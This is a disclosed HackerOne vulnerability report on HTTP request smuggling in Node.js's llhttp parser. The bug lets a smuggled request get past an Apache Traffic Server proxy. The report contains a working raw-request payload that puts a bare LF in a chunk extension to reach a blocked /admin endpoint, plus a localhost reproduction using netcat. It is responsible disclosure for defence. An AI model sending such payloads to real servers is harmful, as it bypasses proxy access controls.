 # HTTP Request Smuggling due to ignoring chunk extensions

## Report Details
- **Report ID**: 1238099
- **URL**: https://hackerone.com/reports/1238099
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-06-19T08:43:05.937Z
- **Disclosed**: 2021-11-02T21:07:10.761Z

## Reporter
- **Username**: mkg
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:**
The `llhttp` parser in the `http` module in Node 16.3.0 ignores chunk extensions when parsing the body of chunked requests. This leads to HTTP Request Smuggling (HRS) when a Node server is put behind an Apache Traffic Server (ATS) 9.0.0 proxy.

**Description:**
In the `chunked` transfer encoding format there can be a so called chunk extension after each chunk size. Example:
```
GET / HTTP/1.1
Host: localhost
Transfer-Encoding: chunked

5 ; a=b
hello
0

```
In the example above the chunk extension would be `; a=b`. You can read more here https://datatracker.ietf.org/doc/html/rfc7230#section-4.1.1 and here https://www.rfc-editor.org/errata/eid4667 .

`llhttp` doesn't try to parse the chunk extension properly, but simply ignores every byte until it reaches a `\r` (source: https://github.com/nodejs/llhttp/blob/master/src/llhttp/http.ts#L736-L739). By following the ABNF of chunk extensions one can see that the only allowed bytes in this area are 0x09, 0x21-0x7e and 0x80-0xff. But `llhttp` allows any byte. This is the bug.

Notably we can put a `\n` in this area. This allows us to perform HRS when combined with ATS. This is because ATS also incorrectly parses the chunked extension. ATS looks for the first `\n` character and doesn't verify whether it was preceded by a `\r`. We arrive at the following attack:

```
GET / HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked

2 \nxx
4c
0

GET /admin HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked

0

```

By sending the data above when ATS is a proxy in front of Node, ATS will see one request to `/` and Node will see two requests, one to `/` and one to `/admin`. Note that all lines are terminated by CRLF (`\r\n`) and that `\n` should be replaced with an LF character.

Usually with HRS it is possible to smuggle a request past a proxy directly to the server and then get a response for the smuggled request back to the attacker. But due to a bug in ATS where the connection hangs after a chunked request is sent, we can in this case only send a smuggled request and not see the response. But we have full control over the headers and body of the smuggled request.

Both these bugs have been reported to ATS and have not been fixed yet.

## Steps To Reproduce:

This Proof of Concept requires docker and docker-compose.

Unzip the attached `poc.zip`. Start the systems with `sudo docker-compose up --build`. Now Node can be accessed directly at http://localhost:8081 and ATS (forwarding to Node) can be accessed at http://localhost:8080

Node behaves like this:
```sh
$ curl http://localhost:8081
INDEX
$ curl http://localhost:8081/admin
ADMIN
$ curl http://localhost:8081/forbidden
FORBIDDEN
```

Note that when `/admin` is requested, then `/admin was reached!` is printed in the docker-compose terminal.

ATS behaves like this:
```sh
$ curl http://localhost:8080
INDEX
$ curl http://localhost:8080/admin
FORBIDDEN
$ curl http://localhost:8080/forbidden
FORBIDDEN
```

Note that all requests to `/admin` are rerouted to `/forbidden` by ATS. So the `/admin` endpoint can't be reached.

Now it's time to send the attack described above. This can be done by using the included `payload.py`. The attack can be sent using the following command:

```sh
python3 payload.py | nc localhost 8080
```

When the attack is sent, we see `/admin was reached!` being printed in the terminal. So we bypassed the proxy and reached `/admin`.

(As mentioned before, due to a bug in ATS, the response to the smuggled request can't be seen. If ATS would not have had the mentioned bug, then `payload2.py` could have been used to both send a request and see the response.)

## Impact

If the proxy is acting as an access control system, only allowing certain requests to come through, it can be bypassed, allowing any request to be sent.

## Attachments
- poc.zip
